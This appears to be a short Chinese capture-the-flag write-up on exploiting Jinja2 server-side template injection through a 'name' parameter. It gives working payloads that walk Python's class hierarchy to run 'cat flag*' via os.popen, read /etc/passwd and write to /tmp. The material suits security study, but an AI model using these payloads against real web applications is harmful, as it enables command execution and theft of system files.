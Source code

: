 > 先fuzz测试拿到可以get一个name参数（这也要考，真是服了）
# 开始测试输入
```
http://1ae78b0533574fb6b763eccb831e0b3175b19e935cd04dd7.changame.ichunqiu.com/?name={{1%2B1}}
```
> 这样输出的是hello 2，推测是jinja2命令执行，继续深度测试
掏出上次的payload，
```
aa{{''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals['linecache'].__dict__['os'].__dict__['popen']('cat flag*').read()}}
```
en， 果然不能用,大概到func_globals['linecache']就会报错，好像是没有globals，刚刚学了这个就没有这个，换一个新的payload
```
#读文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
#写文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/1').write("") }}
```